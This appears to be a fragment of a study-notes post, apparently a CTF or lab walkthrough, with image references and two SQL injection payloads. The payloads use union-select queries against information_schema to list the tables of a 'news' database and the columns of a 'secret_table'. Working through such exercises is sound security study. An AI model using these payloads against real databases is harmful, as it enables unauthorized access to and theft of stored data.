 <img src="/assets/img/20200313学习总结/20200313学习总结6.jpg">  
```
'or '1'='1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news'),3#
```
<img src="/assets/img/20200313学习总结/20200313学习总结7.jpg">  
```
'or '1'='1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='news' and table_name='secret_table'),3#
```